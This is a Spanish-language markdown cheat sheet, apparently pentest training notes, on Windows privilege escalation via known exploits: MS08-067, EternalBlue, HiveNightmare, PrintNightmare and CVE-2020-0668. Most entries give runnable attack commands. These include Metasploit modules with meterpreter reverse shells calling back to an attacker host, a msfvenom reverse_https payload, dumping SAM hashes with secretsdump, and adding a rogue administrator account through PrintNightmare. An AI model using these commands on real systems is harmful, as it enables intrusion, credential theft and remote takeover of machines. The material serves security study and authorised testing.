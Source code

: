 
# Escalada de Privilegios en Windows - Kernel Exploits

## Introducción
Mantener todos los equipos Windows actualizados es difícil. Incluso con SCCM o WSUS, siempre hay sistemas sin parches que pueden explotarse. Existen múltiples vulnerabilidades de kernel y RCE que afectan desde Windows XP hasta Windows Server 2019.

Este documento resume las vulnerabilidades más notables, sus métodos de explotación y ejemplos prácticos.

---

## Tabla de Vulnerabilidades Conocidas (2000-2017)

## Vulnerabilidades Notables y Ejemplos

### MS08-067
- **Tipo**: RCE en servicio RPC/SMB.
- **Sistemas Afectados**: Windows 2000/2003/XP/Vista/2008.
- **Descripción**: Error en el manejo de solicitudes RPC permite ejecución como SYSTEM.
- **Uso en Escalada**: Si SMB (445) está bloqueado externamente pero accesible localmente, se puede hacer port-forward y explotar.
- **Explotación**:
```bash
msfconsole
use exploit/windows/smb/ms08_067_netapi
set RHOST <victima>
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <atacante>
exploit
```
- **Referencia**: [MS08-067 Metasploit](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi)

---

### MS17-010 (EternalBlue)
- **Tipo**: RCE en SMBv1.
- **Descripción**: SMBv1 maneja incorrectamente paquetes malformados → RCE como SYSTEM.
- **Uso**: Puede ser usado remotamente o para escalada local si 445 solo es accesible internamente.
- **Explotación**:
```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOST <victima>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <atacante>
exploit
```
- **Referencia**: [EternalBlue PoC](https://github.com/worawit/MS17-010)

---

### CVE-2021-36934 (HiveNightmare / SeriousSam)
- **Tipo**: LPE - Lectura de hives del registro SAM/SYSTEM/SECURITY.
- **Descripción**: Usuarios estándar pueden leer los hives sensibles y extraer hashes.
- **Chequeo**:
```cmd
icacls c:\Windows\System32\config\SAM
```
- **Explotación**:
```powershell
HiveNightmare.exe
impacket-secretsdump -sam SAM-<fecha> -system SYSTEM-<fecha> -security SECURITY-<fecha> local
```
- **Referencia**: [HiveNightmare PoC](https://github.com/GossiTheDog/HiveNightmare)

---

### CVE-2021-1675 / CVE-2021-34527 (PrintNightmare)
- **Tipo**: LPE/RCE vía Print Spooler.
- **Descripción**: RpcAddPrinterDriver permite cargar DLL maliciosas como SYSTEM sin privilegio SeLoadDriverPrivilege.
- **Comprobación**:
```powershell
ls \\localhost\pipe\spoolss
```
- **Explotación (PowerShell PoC)**:
```powershell
Set-ExecutionPolicy Bypass -Scope Process
Import-Module .\CVE-2021-1675.ps1
Invoke-Nightmare -NewUser "hacker" -NewPassword "Pwnd1234!" -DriverName "PrintIt"
```
- **Referencia**: [PrintNightmare PoC cube0x0](https://github.com/cube0x0/CVE-2021-1675)

---

### CVE-2020-0668
- **Tipo**: LPE - File Arbitrary Move.
- **Descripción**: Windows Service Tracing permite mover archivos arbitrarios con privilegios SYSTEM usando enlaces simbólicos.
- **Proceso**:
  1. Se crea un payload malicioso (`maintenanceservice.exe`) con `msfvenom`.
  2. El exploit mueve el archivo a `C:\Program Files (x86)\Mozilla Maintenance Service\` reemplazando el binario legítimo.
  3. El movimiento **corrompe el binario** (error 216) → Por eso se usan **dos copias**: una se mueve (corrupta) para ganar control total (F) y otra se usa luego para reemplazarla manualmente. Se gana control total porque estamos moviendo un fichero creado por nosotros (tras obtenerlo de la máquina atacante) y windows mantiene los permisos de los ficheros que mueve.
- **Chequeo de permisos antes y después**:
```cmd
# Antes del exploit (solo RX)
icacls "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"

# Después del exploit (Full Control)
icacls "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```
- **Payload**:
```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<IP> LPORT=8443 -f exe > maintenanceservice.exe
```
- **Ejecutar exploit**:
```cmd
CVE-2020-0668.exe C:\Users\victima\Desktop\maintenanceservice.exe "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```
- **Enlace PoC**: [CVE-2020-0668 Exploit](https://github.com/RedCursorSecurityConsulting/CVE-2020-0668)

---

### ALPC Task Scheduler 0-Day
- **Tipo**: LPE.
- **Descripción**: Usa SchRpcSetSecurity API para modificar DACLs y cargar DLL como SYSTEM vía Spooler.
- **Referencia**: Explorado en HackTheBox “Hackback”.

---

## Enumeración de Parches Faltantes

- **Comandos para listar actualizaciones instaladas**:
```powershell
systeminfo
wmic qfe list brief
Get-Hotfix
```

Buscar KB faltantes en [Microsoft Update Catalog](https://www.catalog.update.microsoft.com/).

---

## Links Importantes

- **MS08-067 Exploit**: https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi
- **MS17-010 PoC**: https://github.com/worawit/MS17-010
- **HiveNightmare PoC**: https://github.com/GossiTheDog/HiveNightmare
- **PrintNightmare PoC**: https://github.com/cube0x0/CVE-2021-1675
- **CVE-2020-0668 Exploit**: https://github.com/RedCursorSecurityConsulting/CVE-2020-0668

---

## Notas Clave

- Muchas vulnerabilidades antiguas siguen presentes en entornos empresariales.
- EternalBlue (MS17-010) aún es común en infraestructuras antiguas.
- PrintNightmare afecta incluso a controladores de dominio.
- HiveNightmare permite extraer hashes sin privilegios.
- CVE-2020-0668 necesita combinarse con binarios de terceros vulnerables (ej. Mozilla Maintenance Service).

---
